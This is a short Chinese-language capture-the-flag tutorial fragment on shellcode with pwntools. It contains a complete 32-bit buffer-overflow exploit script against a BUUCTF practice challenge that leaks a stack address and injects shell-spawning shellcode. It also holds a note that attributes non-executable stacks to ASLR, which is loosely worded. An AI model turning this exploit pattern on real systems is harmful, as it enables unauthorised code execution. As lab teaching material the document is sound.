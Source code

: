 <img src="./image/image-20240428153225871.png" alt="image-20240428153225871" style="zoom:67%;" />

```python
shellcraft.sh()	#默认生成的shellcode是32位的
shellcraft.amd64.sh()	#生成64位的
p.sendline(asm(shellcraft.sh()))	#把shellcode转成机器码

shellcode = asm(shellcraft.sh())
shellcode = shellcode.ljust(120,b'a')
```

一般来说，靶机基本都开启了ALSR，所以不会对栈写入shellcode，

### 32位

```python
from pwn import *
context(os="linux",arch="i386",log_level="debug")
p=remote('node5.buuoj.cn',27809)
#p=process('./ez_pz_hackover_2016')
p.recvuntil("0x")
stack=int(p.recv(8),16)
print(hex(stack))
p.recvuntil(b"> ")
# gdb.attach(p)
shellcode=asm(shellcraft.sh())
payload=flat(b'crashme\x00',b'a'*(0x16-0x4),p32(stack-0x1c),shellcode)
p.sendline(payload)
p.interactive()
```
